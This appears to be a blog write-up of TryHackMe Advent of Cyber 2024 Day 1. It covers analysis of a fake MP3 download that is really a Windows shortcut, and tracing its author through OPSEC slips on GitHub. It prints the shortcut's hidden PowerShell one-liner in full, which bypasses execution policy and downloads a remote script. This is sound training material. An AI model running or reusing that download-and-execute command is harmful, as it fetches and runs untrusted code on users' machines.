 ```yaml
---
layout: "post"
title: "Tryhackme-AOC2024-Day1"
categories: [Advent-of-Cyber-2024]
tags: [TryHackMe, write-ups, AOC2024]

---
```


![](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*0WHeRElCAfyjjCDXapEQKw.png)

The first day of the **Advent of Cyber 2024** challenges introduces us to key concepts in **digital forensics** and **operational security (OPSEC)**. We investigated a suspicious website that claimed to be a YouTube-to-MP3 converter, uncovering hidden malware and tracing the digital footprints of the threat actor, **M.M.**

Let’s walk through the challenge step-by-step and explore the **tools, techniques**, and **lessons learned** during this exercise.

# Challenge Summary

The task was to analyze a website suspected of hosting malicious files. The investigation required us to:

1. Identify a malicious file masquerading as a song download.
2. Uncover a PowerShell script that sent stolen data to a **Command & Control (C2)** server.
3. Trace the attacker’s **identity** through poor OPSEC practices.

This exercise demonstrated how cybercriminals can leave behind **digital breadcrumbs** and how investigators can connect these clues to uncover the truth.

# Learning Objectives

1. Learn how to investigate suspicious files using **file analysis** tools.
2. Understand **OPSEC** mistakes and their consequences.
3. Attribute malicious activity by correlating **digital artifacts**.

# Introduction to OPSEC

**Operational Security (OPSEC)** originated as a military concept designed to protect classified data from adversaries. In cybersecurity, OPSEC focuses on preventing the exposure of sensitive information that could be exploited.

A security professional must adopt an **operational security mindset**. After all, if we don’t practice OPSEC in our daily lives, we can’t hope to secure an organization’s IT environment.

I’ve previously written a blog on maintaining strong **cybersecurity hygiene** through practical steps like:

- Using **strong, unique passwords**
- Enabling **2FA** (Two-Factor Authentication)
- Regular **software updates**
- Using **anti-virus software** and **VPNs**
- Limiting personal information sharing online

You can check out the full blog [here](https://medium.com/@dharmatejak73/security-hygiene-for-everyone-73eb39083c5e).

# Step-by-Step Walkthrough

## **1. Investigating the Suspicious Website**

   The challenge provided a shady YouTube-to-MP3 converter website. After downloading a “song” file from this site, I unzipped the folder and found two files instead of one.

![](https://miro.medium.com/v2/resize:fit:720/format:webp/1*uI03VZXtK0pFuplxFmIk-w.png)
![](https://miro.medium.com/v2/resize:fit:720/format:webp/1*3MpH8jX6p0jigG-04NpJ_w.png)

## **2. Inspecting the File**

Using the `file` command on Linux, I discovered that the **somg.mp3** file was actually a **.lnk file** (a Windows shortcut file):

```
file somg.mp3
```
![](https://miro.medium.com/v2/resize:fit:720/format:webp/1*SiQ8DI4FvaHVS6nU_RAHxA.png)

**What are .lnk files?**

- `.lnk` files are Windows shortcuts that point to other files, folders, or applications.
- Attackers often use them to execute malicious commands or scripts.

## **3. Extracting Metadata with ExifTool**

I used **ExifTool** to extract metadata from the `somg.mp3` file:

```
exiftool somg.mp3
```

The output revealed a **PowerShell command** hidden in the file metadata. Let’s break it down:

![](https://miro.medium.com/v2/resize:fit:720/format:webp/1*qEaN4i-ok6bKe1ZeCwGyUg.png)

```
powershell -ep bypass -nop -c "iex (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1', 'C:\ProgramData\IS.ps1')"
```

- **`ep bypass -nop`**: These flags disable PowerShell execution restrictions, allowing scripts to run silently.
- **`DownloadFile`**: Downloads a script (`IS.ps1`) from a remote server.
- **`iex`**: Executes the downloaded PowerShell script.

## **4. Analyzing the PowerShell Script**

The PowerShell script was hosted on a **GitHub repository**. Upon inspecting the script, I noticed a banner stating:

> “Created by the one and only M.M.”

![](https://miro.medium.com/v2/resize:fit:720/format:webp/1*1_4zynRv-tiddgt0T9fkvw.png)

This clue led me to investigate the author **M.M.** further.

## **5 Tracing the Attacker (OPSEC Failure)**

Using GitHub’s search functionality, I searched for the banner’s title. The results pointed to a repository where the attacker, **M.M.**, had made a critical OPSEC mistake:

![](https://miro.medium.com/v2/resize:fit:720/format:webp/1*Y3Yk4N2usnr_4V-wKW8U4Q.png)

- In the repository’s **README.md** file, **M.M.** included their **real name**.
- This allowed me to identify the attacker and confirm their identity.

This is a classic example of an **OPSEC failure** — a minor oversight that exposed the attacker’s true identity.

# **Key Takeaways: OPSEC Lessons Learned**

The mistakes made by **M.M.** underscore the importance of operational security:

- **Avoid reusing names, emails, or banners** that link your activities across platforms.
- Sensitive files, such as PowerShell scripts, should never contain personal identifiers.
- Cybercriminals often leave digital footprints without realizing it.

Real-world examples like **AlphaBay Admin Takedown** and **APT1 OPSEC failures** show how these mistakes can lead to arrests and attribution.

# **Day 1 Challenge Answers**

**1. Who is the author of the song?**

![](https://miro.medium.com/v2/resize:fit:720/format:webp/1*kWHMNdeQci2CbCgdyrIWIA.png)

**2. What is the URL of the C2 server?**

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*GAA8PONAIwvi6m5U1apjew.png)

**3. Who is M.M.? Maybe his GitHub profile page would provide clues.**

![](https://miro.medium.com/v2/resize:fit:720/format:webp/1*Y3Yk4N2usnr_4V-wKW8U4Q.png)

**4. What is the number of commits on the GitHub repo where the issue was raised?**

![](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*K6_kJvrB5ZcXJW5GauUJEQ.png)

# **Conclusion**

Day 1 of the **Advent of Cyber 2024** challenge offered a great introduction to analyzing malicious files, identifying OPSEC failures, and tracking threat actors. By following **methodical investigative steps** and leveraging tools like **ExifTool**, we can uncover hidden evidence and draw meaningful conclusions.

This challenge not only sharpened my technical skills but also reinforced the importance of **operational security** in both offensive and defensive cybersecurity.

Stay tuned for Day 2 as we continue this exciting journey of learning and discovery!
